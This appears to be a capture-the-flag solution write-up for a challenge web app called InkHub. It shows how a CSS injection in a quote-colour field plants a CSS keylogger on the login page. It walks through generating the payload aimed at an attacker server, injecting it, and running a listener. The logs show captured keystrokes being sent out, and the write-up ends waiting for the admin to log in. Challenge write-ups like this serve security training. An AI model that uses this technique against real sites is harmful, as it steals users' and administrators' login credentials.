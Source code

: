 # Solution

The vulnerability consists of a CSS injection in the `new-quote-color` input field. Since the injected CSS is used on the login page of InkHub, it is possible to inject a keylogging payload written entirely in CSS.

## PoC
A provided PoC is placed in [./css-keylogger](./css-keylogger), and the file [keylogger.template.css](./css-keylogger/keylogger.template.css) is taken from [maxchehab/CSS-Keylogging](https://github.com/maxchehab/CSS-Keylogging). Here's how to use it:

- Use this quick set of commands to set things up.
    ```
    cd ./css-keylogger
    python -m venv venv
    source venv/bin/activate
    pip install -r requirements.txt
    ```

- Generate css keylogger payload using the helper script `make-css-keylogger.py` providing the endpoint for your keylogger server (e.g., `http://172.22.209.203:3000`). Keep reading, it will make sense.

    ```
    python make-css-keylogger.py http://172.22.209.203:3000
    ```

- The above command should create two files: `keylogger.css` and `injection-string.txt`. The `injection-string.txt` 
is a wrapper injection string around the content of `keylogger.css`.

- Goto the inkhub website, login as `user`, and open the share-quote modal.
  1. Fill the quote text with an _inspiring quote_ "Pwned by css. Pwned by css. Pwned by css. Pwned by css.".
  2. Unhide the `new-quote-color` field.
  3. Copy and paste the content of `injection-string.txt` into the `new-quote-color` field, and submit.
  ![](imgs/css-injection-vector.png)
  
- Confirm that the injection went through by checking `styles.css`
  ![](imgs/css-injection-confirmation.png)

- Start the keylogger `server.py` to capture logged keystrokes (you can test it locally).
    ```
    python server.py
    ``` 
- The output looks like this when keystrokes are captured.
    ```
     * Serving Flask app 'server'
     * Debug mode: off
    WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
     * Running on all addresses (0.0.0.0)
     * Running on http://127.0.0.1:3000
     * Running on http://172.22.209.203:3000
    Press CTRL+C to quit
    Received 'key' value: s
    172.22.208.1 - - [17/Nov/2024 02:47:52] "GET /?key=s HTTP/1.1" 200 -
    Received 'key' value: e
    172.22.208.1 - - [17/Nov/2024 02:47:52] "GET /?key=e HTTP/1.1" 200 -
    Received 'key' value: r
    172.22.208.1 - - [17/Nov/2024 02:47:52] "GET /?key=r HTTP/1.1" 200 -
    Received 'key' value: u
    172.22.208.1 - - [17/Nov/2024 02:47:53] "GET /?key=u HTTP/1.1" 200 -
    ```
- All keystrokes will be saved to `keystrokes.txt`. Now wait for the admin to login... 
    ```
    watch cat keystrokes.txt
    ```
